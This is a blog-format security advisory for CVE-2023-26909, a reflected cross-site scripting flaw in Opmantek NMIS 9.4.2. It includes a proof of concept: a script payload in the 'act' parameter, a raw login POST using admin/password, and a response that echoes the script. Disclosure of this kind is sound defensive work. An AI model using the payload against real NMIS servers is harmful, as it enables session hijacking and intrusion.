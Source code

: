 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in Opmantek NMIS module before 9.4.3"
date:   2023-04-06 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: CVE-2023-26909
* CWE ID: CWE-79

#### Vendor: Opmantek (FirstWave company)

#### Product: Opmantek NMIS9 Virtual Appliance

#### Version affected: NMIS 9.4.2 and earlier versions

#### Product description:

FirstWave is a publicly-listed, global technology company formed in 2004 in Sydney, Australia.
FirstWave’s globally unique CyberCision platform provides best-in-class cybersecurity technologies, enabling FirstWave’s Partners, including some of the world’s largest telcos and managed service providers (MSPs), to protect their customers from cyber-attacks, while rapidly growing cybersecurity services revenues at scale.

#### Proof of Concept:

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified on the cgi-bin/config.pl page.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### Request:
{% highlight ruby %}

Reproducing of Cross-Site scripting

1.GET Request

https://1.2.3.4/cgi-nmis9/config.pl?act=%3Cscript%3Ealert(1)%3C/script%3E&section=system&item=hide_groups

2. User admin/password in this case getting logged on, when injected java script gets executed.

3. Final HTTP Request/Response

Request:

POST /cgi-nmis9/config.pl HTTP/1.1
Host: 1.2.3.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------219772600018532218693195954924
Content-Length: 1030
Origin: https://1.2.3.4
Referer: https://1.2.3.4/cgi-nmis9/config.pl
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="auth_username"

admin
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="auth_password"

password
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="login"

Login
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="conf"


-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="login"

Login
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="act"

<script>alert(1)</script>
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="section"

system
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="item"

hide_groups
-----------------------------219772600018532218693195954924--


Response:

HTTP/1.1 200 OK
Date: Wed, 04 Jan 2023 07:07:13 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
Expires: Wed, 04 Jan 2023 07:07:15 GMT
Set-Cookie: omk=eyJhdXRoX2RhdGEiOiJhZG1pbiIsImV4cGlyZXMiOjE2NzI4MTc4MzV9--a1cfd6a852976485aaba2df83a25208834899b73; path=/; expires=Wed, 04-Jan-2023 07:37:15 GMT; HttpOnly
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 77

Config: ERROR, act=<script>alert(1)</script>, node=, intf=
Request not found

{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://firstwave.com/products/network-management-information-system/
3. https://support.opmantek.com/browse/SUPPORT-10209
4. https://community.opmantek.com/display/NMIS/NMIS+9+Release+Notes
5. https://dl-nmis.opmantek.com/nmis9-9.4.3.run
